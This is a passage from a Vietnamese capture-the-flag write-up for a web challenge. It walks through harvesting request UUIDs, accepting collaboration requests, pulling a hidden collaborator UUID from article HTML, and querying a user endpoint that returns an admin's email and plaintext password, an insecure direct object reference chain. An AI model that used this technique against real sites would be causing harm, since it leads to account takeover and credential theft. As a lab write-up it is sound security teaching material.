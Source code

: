 
### 3. Xem outgoing requests → lấy request UUIDs

- Truy cập `/collaborations` (sử dụng cookie editor) — trang hiển thị các outgoing requests:
    
    ```
    Sent to admin
    Sent to administrator
    Sent to root
    Sent to sysadmin
    Sent to admin1
    Sent to admin2
    
    ```
    
- Mỗi card có một `request.uuid` (hidden span). Ví dụ:
    
    ```
    adb67964-c809-49bf-ba67-80d5be4a5296
    4eedc17b-f0c2-41a3-be93-488ab85ac592
    ...
    
    ```
    

### 4. Accept các request (editor) để tạo article

- Gọi `POST /collab/accept/<request_uuid>` cho mỗi `request_uuid`.
- Server chèn article dựa trên `collab_requests` (sử dụng `article_uuid` từ request).

### 5. Mở bài viết (article) — collaborator UUID lộ ra

- Tham chiếu article URL `/article/<article_uuid>` — HTML chứa:
    
    ```html
    <span class="d-none author-uuid">c7f6a520-e886-4bca-9426-b2299603a99f</span>
    <span class="d-none collaborator-uuid">2c389240-d72c-48bd-b9e6-f34054613cf4</span>
    <small>Posted by attacker1 in collaboration with admin1 on 2025-10-04 15:32:27</small>
    
    ```
    
- Dùng `collaborator-uuid` để gọi `/users/<collab_uuid>`.

### 6. Truy vấn `/users/<collab_uuid>` (lấy thông tin)

- Ví dụ gọi `/users/9075229d-9bcd-4f8b-9fb0-a484cb3bf914` trả:
    
    ```json
    {
      "email": "admin@securinets.tn",
      "password": "Adm1nooooX333!123!!%",
      "phone_number": "77777777",
      "role": "0",
      "username": "admin",
      "uuid": "9075229d-9bcd-4f8b-9fb0-a484cb3bf914"
    }
    